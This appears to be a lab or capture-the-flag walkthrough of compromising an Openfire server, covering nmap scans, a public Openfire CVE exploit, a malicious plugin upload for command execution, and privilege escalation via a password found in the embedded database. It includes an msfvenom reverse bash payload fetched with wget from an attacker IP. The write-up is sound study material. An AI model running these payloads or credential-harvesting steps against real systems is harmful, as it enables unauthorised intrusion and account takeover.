Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.138.96
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-21 17:10 IST
Nmap scan report for 192.168.138.96
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
9090/tcp open  zeus-admin
9091/tcp open  xmltec-xmlmail

Nmap done: 1 IP address (1 host up) scanned in 27.44 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 22,9090,9091 192.168.138.96
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-21 17:11 IST
Nmap scan report for 192.168.138.96
Host is up (0.11s latency).

PORT     STATE SERVICE                VERSION
22/tcp   open  ssh                    OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 51:56:a7:34:16:8e:3d:47:17:c8:96:d5:e6:94:46:46 (RSA)
|   256 fe:76:e3:4c:2b:f6:f5:21:a2:4d:9f:59:52:39:b9:16 (ECDSA)
|_  256 2c:dd:62:7d:d6:1c:f4:fd:a1:e4:c8:aa:11:ae:d6:1f (ED25519)
9090/tcp open  hadoop-tasktracker     Apache Hadoop
|_http-title: Site doesn't have a title (text/html).
| hadoop-tasktracker-info: 
|_  Logs: jive-ibtn jive-btn-gradient
9091/tcp open  ssl/hadoop-tasktracker Apache Hadoop
|_ssl-date: TLS randomness does not represent time
|_http-title: Site doesn't have a title (text/html).
| hadoop-datanode-info: 
|_  Logs: jive-ibtn jive-btn-gradient
| ssl-cert: Subject: commonName=localhost
| Subject Alternative Name: DNS:localhost, DNS:*.localhost
| Not valid before: 2024-06-28T07:02:39
|_Not valid after:  2029-06-27T07:02:39
| hadoop-tasktracker-info: 
|_  Logs: jive-ibtn jive-btn-gradient
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.91 seconds
```

When I accessed port 9090, I was redirected to the Openfire admin console, which is used for managing and configuring the Openfire server.

Searched for public exploits available for openfire but found nothing. So we googled it and found one CVE.

We downloaded the exploit and try to run it but faced errors.

This is python module installation error. So whenever we'll face this issue we'll use following steps.
```sh
sudo apt install python3-venv -y
python3 -m venv venv
source venv/bin/activate
pip install hackrequests
```
The Exploit was able to generate for me a Username and password that I could use to login.

Using the creds created for user we are able to login.


From this point, I followed the steps outlined in the Git repository to proceed with the exploitation.

We can download the plugin from below.

I navigated to the specified path and uploaded the `openfire-management-tool-plugin.jar` file as a plugin.



After entering password, click on below dropdown and select system command.


To get a revershe shell I tried some revs shells as nc, python3 but none worked. So I created a shell file whit msfvenom and upload to the target with wget to the /tmp directorie:
```sh
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.45.234 LPORT=9090 -f raw > reverse.sh
```


```sh
wget http://192.168.45.234:8000/reverse.sh -O /tmp/reverse.sh
```


After uploaded, I change the permissions to the file, then I execute it:

Executing the payload.

We got the shell.

Captured the local flag.

After getting the user flag it’s time to escalate our priviliges and get root, I ran linpeas as usual for privilege escalation and found two writable files.

I’ll investigate them next.

In the /var/lib/openfire/embedded-db directory I examined the logs and the files and found interesting information:
When we open the openfire.script, we found following
`cat openfire.script`


I was able to run the following command on :  
`cat openfire.script | grep “password”`

And got the following credential :

Here, we found 2 user creds. So we'll try to authenticate with password `OpenFireAtEveryone`



### Method 2 we can login using root creds through SSH.
